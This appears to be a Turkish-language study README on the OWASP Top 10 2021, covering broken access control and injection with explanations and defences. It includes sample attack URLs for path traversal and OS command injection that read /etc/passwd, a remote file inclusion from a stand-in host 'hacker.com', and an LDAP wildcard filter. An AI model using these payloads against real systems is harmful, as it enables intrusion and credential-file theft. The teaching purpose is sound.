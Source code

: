 # İçerik
- [x] A01: Broken Access Control
- [ ] A02: Cryptographic Failures
- [ ] A03 Inejcttion
- [ ] A04 Insecure Design
- [ ] A05 Security Misconfiguration
- [ ] A06 Vulnerable and Outdated Components
- [ ] A07 Identification and Authentication Failures 
- [ ] A08 Software and Data Integrity Failures
- [ ] A09 Security Logging and Monitoring Failures
- [ ] A10 Server Side Request Forgery (SSRF)

--- 

# A01:2021 -  Bozuk Erişim Kontrolü ( Broken Access Control)
Erişim kontrolü kullanıcıların yetkileri dışına çıkmamalarını sağlamaktadır. Yetkisiz kullanıcının, yetkisi dışında gerçekleştirebildiği işlemler bu güvenlik açığını ortaya çıkarmaktadır. Erişim denetimleri birçok yöntem ile bypass edilebilmektedir. **Authentication** (kimlik doğrulama) ve **Authorization** (yetkilendirme), konuyla ilgili çnemli kavramlardır. Kimlik doğrulama, kullanıcının kim olduğunun doğrulandığı işlemdir. Yetkilendirme işlemi ise kullanıcının kimliğine göre yetkilerin kontrol edilmesidir. Erişim kontrolü, kullanıcının gerçekleştireceği işlemi yapıp yapamayacağını belirlemektedir. Erişim Denetim Türleri üç kategoride incelenebilmektedir.
	1. Vertical Access Control (Dikey Erişim Kontrolü): Bu kontrol mekanizmasında, normal kullanıcıların yönetici izinlerini kullanmasına izin vermez.Kullanıcı türüne göre yetkilendirme yapılabilir.
	2. Horizontal Access Control (Yatay Erişim Kontrolü):  Kullanıcıların kaynakları ayrıdır. Bir kullanıcı başka bir kullanıcının kaynaklarına ve yetkilerine erişim sağlayamaz.
	3. Context-Dependent Access Control (Bağlamsal Erişim Kontrolü): Kullanıcının gerçekleştiği işlemlerin sırasına göre yetkilendirme işlemi gerçekleşmektedir. Örneğin, kullanıcı sepetine ürün ekleme/çıkarma gibi işlemleri gerçekleştirebilir. Ödeme yapıldıktan sonra satın aldığı ürünleri değiştirememesi gerekir.

<mark style="background-color: red">Güvenlik açıklıkları</mark>
- URL veya HTML sayfasında değişiklik yapma, API isteklerini düzenleme 
- Başka  bir kullanıcıya ait eşsiz id ile hesap üzerinde düzenleme yapabilme, IDOR zafiyeti (insecure direct object references)
- Yetki yükselterek admin haklarına sahip olma veya giriş yapmadan varsayılan kullanıcı haklarına sahip olma
- Metadata manipülasyonları, JSON Web Token geçersizleştirme
- CORS(Cross Origin Resource Sharing) konfigurasyonlarının eksik yapılması. CORS, istekleri farklı domain(etki alanına) göndermeyi sağlayan yapıya denir. 

<mark style="background-color:lightgreen">Önlemler</mark>
Erişim kontrolü, sunucu tarafının güvenilir olmasıyla veya server-less(sunucusuz) API kullanımı ile kullanışlı durumdadır.Erişim kontolü olası güvenlik saldırılara karşı,
- Erişim kontrol hataları loglanması
- Web sunucu dizinlerini devre dışı bırakmak yedekleme dosyalarını bu dizinde bulundurmamak
- Durum bilgisini içeren tanımlayıcılar oturum kapatıldıktan sonra geçersiz duruma gelmelidr. Durum bilgisi taşımayan JWT tokenleri geçerlilik süreleri kısa tutulmalı
- Her istekte izinlerin doğrulanması
- Erişim izinlerinin varsayılan olarak kapalı olması 
- Bağlantı adresi içerisindeki id parametresi değiştirilemese bile erişilmez olması gerekmektedir.
- 

Note:
JWT(JSON Web Token) json objelerini kullanarak uygulama ve kullanıcı arasında güvenli veri taşımayı sağlar ve taşıdığı verinin bütünlüğünü doğrulayabilmektedir.Oturum yönetimi için kullanılır. Giriş yapan her kullanıcı tokene sahiptir böylece hangi izinlere sahip olduğu içerisinde  belirtilir. Brute force yöntemini kullanarak dizin listeleme yaparak token doğrulama,XXE, CSRF saldırıları ile anahtar değeri sızdırılabilir. JWT, başlık, payload, imza şeklinde 3 parçadan oluşur ve encode edilmiş haldedir. https://jwt.io/ sitesinde örnek gösterimi bulunmaktadır.

<mark>Örnek Saldırı Senaryoları</mark>

- Uygulama içerisinde hesap bilgilerine erişilen kısımda doğrulanmamış verilerin kullanılması, tehdit aktörünün bağlantı adresindeki id parametresini değiştirerek herhangi bir hesaba erişmesine neden olabilir. 
- Admin sayfasına erişim sağlayabilmesi (örneğin, `https://target.com/admin` gibi)
- Directory Traversal File Include (Dizin veya dosya yolu geçişi) yani, bağlantı adresi ile sunucu içerisindeki dosyaya erişim sağlamak. Yerel ve uzaktan dosya dahil etme olarak iki türlü gerçekleşebilmektedir. LFI(Local File Inclusion), sunucu içerisinde yani yerelde bulunan dosyaları okuyabilme ve içeriğine erişebilme işleminin gerçekleşmesidir. Örneğin,  `http://example.com/getUserProfile.jsp?item=../../../../etc/passwd` şeklinde yapılan aramada kullanıcıların giriş bilgilerini tutan dosyaya erişim sağlanabilir eğer LFI zafiyeti bulunuyorsa. RFI(Remote File Inclusion), zafiyetinde ise uzak sunucudan dosya yüklenebilmesi ve çalıştırılmasıdır. Örnek olarak `http://example.com/index.php?file=http://hacker.com/malicious.txt` . Tehdit aktörü, sunucu içerisine hacker.com adresinden malicious.txt isimli dosyayı yüklemektedir. Atlatma yöntemlerinde encoding işlemleri de gerçekleşmektedir.



<mark style="background: lightblue">İlgili CWE Sayısı</mark>
34 tanedir

---
# A02:2021 Cryptographic Failures (Kriptografik Hatalar)

- [ ] TODO

---
# A03:2021 Injection

<mark style="background-color: red">Güvenlik açıklıkları</mark>
Injection zafiyeti, kullanıcıdan gelen girdinin kontrol edilmemesinden kaynaklanmaktadır. Kötü amaçlı kullanıcı SQL sorgusu, zararlı komutlar çalıştırabilir veya zararlı dosya yüklemesi ile uzaktan komut çalıştırabilir. Bunun gibi birçok saldırı senaryoları bulunmaktadır.  Injection çeşitleri olarak,
- **SQL injection:** Kullanıcı tarafından uygulamada bulunan veri girdisinde SQL sorgu cümlesinin enjekte edilmesi veya çalıştırılabilmesidir. Bu işlem sonucunda, veritabanı içerisinden hassas bilgilere erişilebilir, içeriği değiştirebilir. Böylece veri bütünlüğü bozulmuş olur.  
- **OS command injection:** Web sunucusu üzerinde işletim sistemi komutlarının çalıştırılabilmesidir. Bu sayede zararlı aktiviteler gerçekleştirilebilir, işletim sistemi içerisindeki şifre gibi hassas bilgilere ulaşabilir. Url sonuna `%3B` yani komut ayırıcı olarak kullanılan  `;` işareti eklenir . Örneğin, `http://sensitive/something.php?dir=%3Bcat%20/etc/passwd` . Bu istek sonucunda istenen dosya içeriğine ulaşılabiliyorsa bu zafiyet meydana gelmiştir. Bu gibi hassas işletim sistemi komutlarının tespiti gerçekleşebilmektedir. 
- LDAP Injection: kullanıcının girdisine bağlı olarak LDAP ifadelerin oluşmasıdır. Kullanıcının hesabının doğrulanması için LDAP kullanılması ve LDAP sorgularının güvenli olmaması bu iki faktör LDAP injection güvenlik açığına neden olmaktadır. LDAP sorguları SQL sorgulara benzetilmektedir. LDAP protokolü, kullanıcı hakkında bilgileri depolamaktadır. Sunucu tarafından gerçekleşen saldırı türüdür(server-side attack). Web uygulamaları kullanmaktadır. Başarılı gerçekleşen LDAP injection saldırısında LDAP arama  filtreleri metakarakerler uygulama içerisinde çalıştırılarak LDAP'ın depoladığı kullanıcı bilgilerine erişim sağlanabilir veya değiştirilebilir. Örneğin, yapılan http isteği şu şekilde olsun `http://www.example.com/ldapsearch?user=John` , John yerine  `*` işaretini koyarsak, arama filtresi  `searchfilter="(cn=*)"` böyle olur ve uygulamaya göre kaydedilen  tüm kullanıcı bilgilerine erişim sağlanabilir.  `cn` , `uid` , `homeDirectory`  gibi  paramtereler ile hangi dizinde olduğu bile öğrenilebilir.


<mark style="background-color:lightgreen">Önlemler</mark>
Injection zafiyetinin önlenmesi için, 
- Geliştirilen uygulama içerisinde veri girişlerinin bazı araçlar ile test edilmesi
- Verilerin sunucu tarafında doğrulamasının yapılması  
- Veritabanı sorguları için özel karakterlerden kaçınılması
- LDAP için tüm değlerden kaçınarak LDAP encoding işleminin yapılması. OWASP ZAP bu zafiyeti otomatik olarak tespit edebilmektedir.
- Kullanıcı girdi doğrulaması yapılırken tehlikeli olabilen  `& | ; $ > < \  ` gibi işaretlerin içermediği izin verilen karakterler listesi kullanılabilir. Kullanıcıdan istenen girdiye göre harf veya sayı ile sınırlandırılabilir ayrıca girdinin karakter sayısı aralığı da belirlenerek injection riski azaltılabilir.

<mark>Örnek Saldırı Senaryoları</mark>

- [ ] TODO:

---

# A04: Insecure Design

- [ ] TODO

---
# Kaynak 
- [OWASP TOP 10](https://owasp.org/Top10/)
* [JWT Nedir?](https://medium.com/bili%C5%9Fim-hareketi/json-web-tokens-jwt-nedir-4d10c7e692f4)
* [JWT Nedir, Güvenlik Kontrolleri Nasıl Yapılandırılır?](https://medium.com/trendyol-tech/jwt-nedir-g%C3%BCvenlik-kontrolleri-nas%C4%B1l-yap%C4%B1l%C4%B1r-3421ebc33989)
* [Injection Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Injection_Prevention_Cheat_Sheet.html)
* [A Comprehensive Guide to Broken Access Control](https://www.prplbx.com/resources/blog/broken-access-control/)
* [Local File İnclusion Nedir ?](https://murat-mdk64.medium.com/local-file-i%CC%87nclusion-nedir-9afd23473405)
* 


